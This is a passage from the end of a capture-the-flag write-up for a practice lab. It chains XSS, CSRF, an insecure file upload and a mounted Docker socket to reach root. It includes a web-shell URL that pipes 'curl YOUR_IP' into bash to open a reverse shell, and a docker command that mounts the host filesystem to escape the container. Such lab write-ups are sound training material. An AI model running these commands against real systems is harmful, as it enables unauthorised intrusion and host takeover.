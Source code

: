 Trigger the reverse shell via the web shell:

```
http://review.thm/uploads/shell.php?cmd=curl%20YOUR_IP%20|%20bash
```

Your listener should receive a shell as root inside the container.

### 6.2 Escape via Docker Socket

Inside the container, confirm the presence of the Docker socket:

```bash
ls -la /var/run/docker.sock
```

Run a privileged container with the host filesystem mounted:

```bash
docker run -v /:/mnt --rm -it php:8.1-cli bash
```

### 6.3 Retrieve Host’s Root Flag

Within the new container, list and read the flag:

```bash
ls -l /mnt/root/
cat /mnt/root/flag.txt
```

Output:

```
Flag#3: THM{zzzzzzzzzzzzzzzzzz}
```

---

## Interactive Recap

- **Flag 1 (mod access):** `THM{xxxxxxxxxxxxxxxx}`
- **Flag 2 (admin access):** `THM{yyyyyyyyyyyyyyyy}`
- **Flag 3 (root access):** `THM{zzzzzzzzzzzzzzzzzz}`

Each phase built upon the last: exploiting **XSS** → hijacking a session, abusing static **CSRF** tokens → privilege escalation, leveraging insecure **file uploads** → code execution, and finally using a mounted **Docker socket** → container escape. This chain demonstrates the power of vulnerability chaining — don’t let medium or low issues slip through your defenses!

---

*Notes & safe-practice reminders:*

- Do **not** run arbitrary shells or payloads against systems you do not own or have explicit permission to test.
- Treat password and token values shown here as **examples** — real engagements will differ.
- Use secure coding practices, rotate CSRF tokens, and avoid mounting the Docker socket into untrusted containers.


